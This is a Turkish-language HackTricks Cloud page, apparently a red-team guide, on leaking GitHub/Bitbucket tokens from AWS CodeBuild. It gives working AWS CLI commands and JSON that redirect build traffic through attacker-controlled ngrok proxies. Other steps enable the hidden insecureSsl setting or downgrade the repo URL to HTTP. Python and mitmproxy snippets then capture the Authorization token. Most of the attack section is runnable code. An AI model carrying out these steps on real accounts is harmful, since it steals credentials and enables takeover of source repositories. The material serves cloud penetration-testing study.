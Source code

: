 # AWS Codebuild - Token Leakage

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Github/Bitbucket Yapılandırılmış Token'larını Kurtarma

Öncelikle, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker Görüntüsü Üzerinden

Eğer örneğin Github'a kimlik doğrulamanın hesapta ayarlandığını bulursanız, Codebuild'i projeyi oluşturmak için **belirli bir docker görüntüsü** kullanmaya zorlayarak bu **erişimi** (**GH token veya OAuth token**) **sızdırabilirsiniz**.

Bu amaçla **yeni bir Codebuild projesi oluşturabilir** veya mevcut birinin **ortamını** değiştirerek **Docker görüntüsünü** ayarlayabilirsiniz.

Kullanabileceğiniz Docker görüntüsü [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Bu, **env değişkenlerini `https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ayarlayacak çok temel bir Docker görüntüsüdür. Bu, **`https_proxy`** ve **`http_proxy`**'da belirtilen ana bilgisayarın trafiğinin çoğunu kesmenizi ve **`SSL_CERT_FILE`**'da belirtilen SSL CERT'ine güvenmenizi sağlar.

1. **Kendi Docker MitM görüntünüzü oluşturun ve yükleyin**
* Proxy IP adresinizi ayarlamak ve SSL sertifikanızı belirlemek için repo talimatlarını izleyin ve **docker görüntüsünü oluşturun**.
* Metadata uç noktasına yapılan istekleri kesmemek için **`http_proxy`**'yu ayarlamayın.
* Proxy'yi ana bilgisayarınıza ayarlamak için **`ngrok`** kullanabilirsiniz, örneğin `ngrok tcp 4444`.
* Docker görüntünüzü oluşturduktan sonra, **bunu halka açık bir repoya yükleyin** (Dockerhub, ECR...).
2. **Ortamı ayarlayın**
* **Yeni bir Codebuild projesi oluşturun** veya mevcut birinin ortamını **değiştirin**.
* Projeyi **önceden oluşturulmuş Docker görüntüsünü** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızda MitM proxy'yi ayarlayın**

* **Github repo**'sunda belirtildiği gibi, şunu kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bunun çalışmayabileceği bildirildi.
{% endhint %}

4. **Yapıyı çalıştırın ve kimlik bilgilerini yakalayın**

*   Token'ı **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Bu, aws cli üzerinden de şöyle yapılabilir:

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projelerinin, yalnızca API üzerinden değiştirilebilen, webde gizli bir ayarı olan **`insecureSsl`** vardır.\
Bunu etkinleştirmek, Codebuild'in platform tarafından sunulan **sertifikayı kontrol etmeden** depoya bağlanmasına olanak tanır.

* Öncelikle mevcut yapılandırmayı şu şekilde listelemeniz gerekir:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Ardından, toplanan bilgilerle proje ayarını **`insecureSsl`** değerini **`True`** olarak güncelleyebilirsiniz. Aşağıda bir projeyi güncellememe dair bir örnek var, sonunda **`insecureSsl=True`** olduğunu fark edin (bu, toplanan yapılandırmadan değiştirmeniz gereken tek şeydir).
* Ayrıca, tcp ngrok'unuza işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini de ekleyin: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Ardından, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından belirtilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresinden temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, 2023 Şubat ayının 20'si haftasında AWS tarafından bir noktada düzeltildi (sanırım Cuma günü). Bu nedenle bir saldırgan bunu artık kötüye kullanamaz :)**
{% endhint %}

**Yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket token'ını sızdırabilir** veya izinler OAuth aracılığıyla yapılandırılmışsa, **kodu erişmek için kullanılan geçici OAuth token'ını** sızdırabilir.

* Bir saldırgan, CodeBuild projesine kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** ortam değişkenlerini ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Ardından, github repo URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: `http://github.com/carlospolop-forks/TestActions`
* Ardından, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaret edilen portta [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) temel örneğini çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Projeyi oluştur** butonuna tıklayın, **kimlik bilgileri** **düz metin olarak** (base64) mitm portuna **gönderilecektir**:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Artık bir saldırgan, makinesinden token'ı kullanabilir, sahip olduğu tüm ayrıcalıkları listeleyebilir ve (kötüye) kullanmak, CodeBuild hizmetini doğrudan kullanmaktan daha kolay olacaktır.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
